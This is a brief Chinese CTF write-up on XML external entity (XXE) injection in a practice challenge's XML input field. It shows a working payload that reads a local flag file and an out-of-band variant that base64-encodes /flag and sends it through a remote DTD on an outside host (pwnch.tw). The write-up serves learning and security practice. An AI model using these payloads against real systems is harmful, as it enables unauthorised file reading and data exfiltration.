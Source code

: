 # XXE with SSRF
這是AIS3 Orange大大給基礎題：  
題目給了一個大大的`xml here`輸入框，看就知道是XXE  
隨便輸入個xml就能夠被解析輸出  
這邊測試看看回顯以及不回顯該怎麼做

# 回顯
我要的是網站根目錄下的`flag`  
```xml
<!DOCTYPE ANY [
<!ENTITY file SYSTEM "file:///var/www/html/flag">]>
<root>
<msg>&file;</msg>
</root>
```
外部實體＋偽協議輕輕鬆鬆拿到了flag：  
```xml
   SimpleXMLElement Object
(
    [msg] => SimpleXMLElement Object
        (
            [file] => SimpleXMLElement Object
                (
                    [file] => ais3{this is your first flag}

                )

        )
```

# 非回顯
如果沒有顯示框的話，就請把`flag`送來我家吧  
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % remote SYSTEM "http://pwnch.tw/xxe.dtd">
%remote;
%all;
%send;
]>
```
參考[kaibro payload](https://github.com/w181496/Web-CTF-Cheatsheet#out-of-band-oob-xxe) 發現用base64編碼過比較好，不然會出現`simplexml_load_string()`吃到非法字元的問題。  
`xxe.dtd`  
```xml
<!ENTITY % all "<!ENTITY &#37; send SYSTEM 'http://pwnch.tw/?a=%file;'>">
```
接著用`index.php`把`$_GET['a']`接回來即可
